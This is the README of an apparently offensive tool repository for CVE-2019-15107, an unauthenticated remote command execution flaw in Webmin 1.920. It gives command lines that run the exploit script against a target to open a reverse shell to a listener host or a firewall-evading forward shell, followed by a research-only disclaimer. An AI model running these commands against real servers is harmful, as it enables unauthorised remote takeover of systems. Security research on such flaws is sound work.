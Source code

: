 # CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution

A python3 script for the CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution that creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasionA python3 script for the CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution that creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 webmin.py -t https://webmin.site/ -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 webmin.py -t https://webmin.site/ -fs
```

## Help

For help menu:
```
python3 webmin.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.